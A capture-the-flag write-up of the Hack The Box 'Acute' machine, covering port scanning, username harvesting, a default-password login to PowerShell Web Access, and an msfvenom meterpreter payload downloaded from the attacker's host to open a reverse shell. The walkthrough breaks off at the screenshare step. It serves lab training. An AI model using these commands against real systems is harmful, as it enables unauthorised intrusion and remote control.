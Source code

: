 ```yaml
---
layout: default
title : muzec - Acute HTB Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/156177972-e49f95d9-c2ca-41e9-8b24-01f8194d90a5.png)

Now that is a tough machine man it pain full of pain but interesting at last witjout easting to much of time let jump in already.

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oA nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Wed Feb 16 14:29:52 2022 as: nmap -p- --min-rate 10000 -oN nmap/full.tcp -v 10.10.11.145
Nmap scan report for 10.10.11.145
Host is up (0.27s latency).
Not shown: 65534 filtered ports
PORT    STATE SERVICE
443/tcp open  https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Feb 16 14:31:33 2022 -- 1 IP address (1 host up) scanned in 101.32 seconds
```

Now that is strange just one port which is 443 `HTTPS` .

```
nmap -sC -sV -oN nmap/normal.tcp -p 443 10.10.11.145
```

```
# Nmap 7.91 scan initiated Wed Feb 16 14:29:26 2022 as: nmap -sC -sV -oN nmap/normal.tcp -p 443 10.10.11.145
Nmap scan report for 10.10.11.145
Host is up (0.29s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_ssl-date: 2022-02-16T16:29:37+00:00; +2h59m36s from scanner time.
| tls-alpn: 
|_  http/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2h59m35s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 16 14:30:03 2022 -- 1 IP address (1 host up) scanned in 36.87 seconds
```

Now that is interesting let add `atsserver.acute.local 10.10.14.145` to `/etc/hosts` now let see what we have running on the webpage.

![image](https://user-images.githubusercontent.com/69868171/156181902-9045b656-d4c7-41d0-8248-88ff646468cc.png)

Now what do we have let try looking around to see what we can get maybe hint or anything that can be useful to further our enumeration forawrd.

![image](https://user-images.githubusercontent.com/69868171/156183053-2b5b1f08-1e2d-476e-bf46-a38294bda1f4.png)

Now we can use that to create some userlist maybe it can useful.

```
Awallace
Chall
Edavies
Imonks
Jmorgan
Lhopkins
```

![image](https://user-images.githubusercontent.com/69868171/156183552-50ae0f9f-64d1-4428-bccc-02e961ea6bb2.png)

Now that `New Starter Forms` look interesting let click on it.

![image](https://user-images.githubusercontent.com/69868171/156183902-524269ba-7f1b-486b-9e45-9b79ce61b9f6.png)

So we downloaded a doc file let check it and see what we have in it.

![image](https://user-images.githubusercontent.com/69868171/156184767-9fde86cc-19d1-4407-98f1-100abfd9d67e.png)

Seems like a checklist interesting right now that is promising.

![image](https://user-images.githubusercontent.com/69868171/156185182-ad8445e1-421f-419e-ba1d-a181f1914ce3.png)

Arrange for the new starter to meet with other staff in the department as appropriate. This could include the Head of Department and/or other members of the appointee’s team. Complete the remote training.

![image](https://user-images.githubusercontent.com/69868171/156185441-73c9cd98-891e-4c52-a06f-82f7fbd286cc.png)

Now that is cool i click on the `remote` which i got transfer to a `staff` webpage which is a `Windows PowerShell Web Access` ahhh nice.

![image](https://user-images.githubusercontent.com/69868171/156186194-376d4baa-fcf9-4283-8f2d-94bb712e48b5.png)

Since we already know the default password for new staff which is `Password1!` let try to get the computer name back to the doc let check if we have anything hidden on it with `exiftool`.

![image](https://user-images.githubusercontent.com/69868171/156186974-0ea602cc-7360-4596-9162-3b641c2d2b2b.png)

Now we have the `Computer name` let the password with all the userlist we compile.

![image](https://user-images.githubusercontent.com/69868171/156187227-dab95b77-b067-4d15-b64c-cb80fda91428.png)

I was able to get in with `edavies` now time to enumerate the system more to see what we can loot. So the best thing o do now is to get a proper reverse shell back to our terminal.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.145]
└─$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.52 LPORT=1337 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of exe file: 206848 bytes

```

Now we use `msfvenom` to generate a payload file to get a reverse shell now let find writable folder on the target.

![image](https://user-images.githubusercontent.com/69868171/156188121-d4161881-652f-477d-ba97-87f2b7a13fe8.png)

Found a writable folder let transfer our payload.

![image](https://user-images.githubusercontent.com/69868171/156188597-01afc027-6f21-4b56-92a3-51d0819c2554.png)

```
Invoke-WebRequest "http://10.10.14.52:8000/shell.exe" -OutFile "shell.exe"
```

Now let start our listener before executing our payload.

![image](https://user-images.githubusercontent.com/69868171/156191500-749a7199-5cae-4d1a-adc8-1bf1e44a45e1.png)

Now let click on run and execute the payload on the target.

![image](https://user-images.githubusercontent.com/69868171/156191791-cf235a00-0a30-4930-976b-da43b6698f8c.png)

Now that we a meterpreter shell let use the `screenshare` command to see what has taken place on the target 
